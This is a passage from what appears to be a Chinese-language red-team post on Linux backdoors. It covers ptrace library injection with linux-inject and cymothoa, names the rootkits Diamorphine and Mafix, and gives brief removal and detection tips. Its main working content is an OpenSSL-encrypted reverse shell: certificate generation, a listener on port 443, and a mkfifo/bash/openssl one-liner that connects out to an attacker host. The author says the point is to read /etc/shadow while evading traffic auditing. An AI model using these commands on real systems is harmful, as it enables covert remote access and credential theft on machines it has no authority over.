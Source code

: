 从技术上说，获取其它的进程并修改它一般是通过操作系统提供的调试接口来实现的，在 linux 中具有调试功能的工具有 ptrace、Gdb、radare2、strace 等，这些工具都是使用 ptrace 这个系统调用来提供服务的。ptrace 系统调用允许一个进程去调试另外一个进程。

GitHub存在大量开源工具，比如: linux-inject，主要原理是使用 ptrace 向进程中注入恶意 so 文件

```
./inject [-n process-name] [-p pid] [library-to-inject] 
./inject -n sample-target sample-library.so
```

清除：kill或者重启对应的进程即可

还有 cymothoa ：[https://github.com/jorik041/cymothoa](https://github.com/jorik041/cymothoa)

### 0x11 Rootkit

rootkit分为内核级和应用级两种:
	内核级的比如：Diamorphine
	应用级的比如：Mafix

Mafix 是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现远程登陆的特点是配置简单并可以自定义验证密码和端口号。应用级rookit，主要替换ls、ps、netstat命令来隐藏文件

检测：使用相关检测工具，比如：unhide

## 4、openssl流量加密反弹shell

这个其实之前也知道，单习惯性更多的还是bash直接反弹，但考虑到目标网络流量审计的情况，对于如/etc/shadow等敏感文件的读取，还是采用流量加密为好，一并记录。

```
#生成证书
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

#服务端监听
openssl s_server -quiet -key key.pem -cert cert.pem -port 443

#客户端反弹
mkfifo /tmp/z; /bin/bash -i < /tmp/z 2>&1 | openssl s_client -quiet -connect x.x.x.x:443 > /tmp/z; rm -rf /tmp/z
```

### 0x12 参考链接

[http://www.0-sec.org](http://www.0-sec.org/)  
[https://www.anquanke.com/post/id/155943](https://www.anquanke.com/post/id/155943)  
[https://www.cnblogs.com/17bdw/p/10564902.html](https://www.cnblogs.com/17bdw/p/10564902.html)  
[红队实战攻防技术分享：Linux后门总结-SSH利用篇](https://mp.weixin.qq.com/s?__biz=MzI4MzA0ODUwNw==&mid=2247483845&idx=1&sn=df19dd292411e169ba1544106f2ac5d9&chksm=eb91ee91dce667873a277e6cc1638d145d428b10f1fe0628898a9c8a397f834727604a159846&mpshare=1&scene=23&srcid=&sharer_sharetime=1582339251663&sharer_shareid=d32981e13d51bf06188894426d2a54e5#rd)